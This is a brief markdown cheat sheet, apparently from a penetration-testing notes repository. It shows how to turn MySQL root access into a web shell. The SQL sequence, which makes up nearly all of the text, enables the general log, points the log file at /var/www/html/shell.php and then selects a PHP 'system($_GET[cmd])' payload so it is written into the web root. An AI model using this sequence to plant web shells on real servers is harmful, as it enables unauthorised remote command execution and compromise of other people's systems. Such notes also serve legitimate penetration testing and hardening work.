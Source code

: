 # Mysql change log file to get shell

When you get a mysql `root` user, you can change the log file to get a shell.

``` sql
# Check if the current environment is enabled or not.
SHOW VARIABLES LIKE '%general_log%'

# Enable logging
SET GLOBAL general_log = "ON"

# Set the logging output file
SET GLOBAL general_log_file="/var/www/html/shell.php"

# Then all the commands you type will be recorded in the log file.
SELECT '<?php system($_GET["cmd"]);?>';

# disable logging
set global general_log = off;
```